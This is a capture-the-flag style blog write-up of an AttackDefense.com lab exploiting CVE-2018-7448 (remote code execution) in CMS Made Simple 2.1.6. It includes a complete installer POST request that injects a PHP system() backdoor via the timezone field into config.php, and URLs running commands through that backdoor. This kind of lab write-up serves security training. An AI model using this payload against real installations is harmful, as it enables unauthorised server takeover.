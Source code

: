 ```yaml
---
layout: post
title: AttackDefense.com [RCE] - CVE-2018-7448 Exploit
date: 2018-11-25 17:39 -0300
categories: [AttackDefense.com, ctf, writeups, CVE-2018, RCE]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be attacked remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is not authenticated to the web application and needs to find a remote code execution attack to execute arbitrary commands on the server.

CMS Made Simple is a free, open source content management system to manage websites or web portals written in PHP. 


CMS Made Simple (2.1.6) is vulnerable to a Remote Code Execution documented in CVE-2018-7448.

Objective: Your task is to find and exploit this vulnerability.

Level difficulty: Intermediate

Category: Webapps CVEs > Remote Code Execution

### Solution

On this lab, I got a basic installation of CMS Made Simple (2.1.6) which is known to be vulnerable.

![Image of AttackDefense 2018](/uploads/adrce4/image10.png)

After searching for the specific version of the CMS application on the internet, I discovered this exploit link:

- [https://www.exploit-db.com/exploits/44192/](https://www.exploit-db.com/exploits/44192/)

![Image of AttackDefense 2018](/uploads/adrce4/image3.png)

Arbitrary PHP code can be injected into the configuration file (config.php) after installation has been finished. In order to inject PHP code, fresh install and valid database credentials are required. Next step is to proceed with the CMS installation on the following link:

- [http://jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com/cmsms-2.1.6-install.php/index.php](http://jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com/cmsms-2.1.6-install.php/index.php)

![Image of AttackDefense 2018](/uploads/adrce4/image1.png)

On step 4, we can spot our vulnerable input, and we can observe that the database credentials are auto filled in, for us to use:

![Image of AttackDefense 2018](/uploads/adrce4/image7.png)

When pressing next, the following request is performed: 

![Image of AttackDefense 2018](/uploads/adrce4/image8.png)

In order to exploit the known vulnerability, I updated the request in order to include the backdoor payload:

![Image of AttackDefense 2018](/uploads/adrce4/image2.png)

Here is an exact copy of the installation step 4 request:

```python
POST /cmsms-2.1.6-install.php/index.php?mec6d93f0=4 HTTP/1.1
Host: jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com/cmsms-2.1.6-install.php/index.php?mec6d93f0=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Connection: close
Cookie: CMSICd5c5cea1d0=70e72cvsubnlpsnoef9tvjdr64; CMSSESSID05d11d962997=q21dk94sh5dr1f4r436lm7vfs2
Upgrade-Insecure-Requests: 1

dbhost=localhost&dbname=app&dbuser=root&dbpass=&timezone=junk';echo%20system($_GET['cmd']);$junk='junk&next=Next+%E2%86%92
```

Next, I had to finish the CMS installation in order to backdoor our ```config.php``` page.

![Image of AttackDefense 2018](/uploads/adrce4/image9.png)

We can execute code using the following public available backdoor on ```config.php``` using the cmd parameter:

- [http://jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com/config.php?cmd=id](http://jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com/config.php?cmd=id)

![Image of AttackDefense 2018](/uploads/adrce4/image5.png)

- [http://jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com/config.php?cmd=date](http://jvria5vb563wevd50mt5op1pb.public2.attackdefenselabs.com/config.php?cmd=date)

![Image of AttackDefense 2018](/uploads/adrce4/image4.png)

![Image of AttackDefense 2018](/uploads/adrce4/image6.png)